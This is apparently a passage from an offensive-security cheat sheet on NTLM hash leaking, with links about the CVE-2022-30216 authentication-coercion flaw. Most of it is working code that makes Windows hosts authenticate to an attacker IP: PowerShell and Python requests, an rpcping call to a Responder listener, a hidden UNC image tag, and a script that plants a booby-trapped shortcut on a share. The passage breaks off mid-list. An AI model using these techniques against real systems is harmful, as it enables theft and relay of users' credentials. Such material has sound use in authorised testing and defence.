 


## CVE-2022-30216

- [https://www.akamai.com/blog/security/authentication-coercion-windows-server-service](https://www.akamai.com/blog/security/authentication-coercion-windows-server-service)
- [https://github.com/akamai/akamai-security-research/tree/main/cve-2022-30216](https://github.com/akamai/akamai-security-research/tree/main/cve-2022-30216)




## NTLM Leak

- [https://github.com/xct/hashgrab](https://github.com/xct/hashgrab)
- [https://github.com/Gl3bGl4z/All_NTLM_leak](https://github.com/Gl3bGl4z/All_NTLM_leak)

Leak with PowerShell:

```
PS > IWR -UseDefaultCredentials http://10.10.13.37/index.html
```

Leak [with Python](https://stackoverflow.com/a/35577331):

```python
import win32com.client
URL = 'http://10.10.13.37/index.html'
COM_OBJ = win32com.client.Dispatch('WinHTTP.WinHTTPRequest.5.1')
COM_OBJ.SetAutoLogonPolicy(0)
COM_OBJ.Open('GET', URL, False)
COM_OBJ.Send()
print(COM_OBJ.ResponseText)
```

Leak with rpcping (catch with Responder's DCE-RPC listener):

```
Cmd > rpcping -s 10.10.13.37 -e 135 -a privacy -u NTLM
```

Leak with a hidden image:

```html
<img src="\\10.10.13.37\pwn.ico" height="1" width="1" />
```

Leak with a shortcut:

{% code title="lnk.ps1" %}
```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("\\SRV01\PublicShare\pwn.lnk")
$lnk.IconLocation = "\\10.10.13.37\pwn.ico"
$lnk.Save()
```
{% endcode %}

Leak with curl:
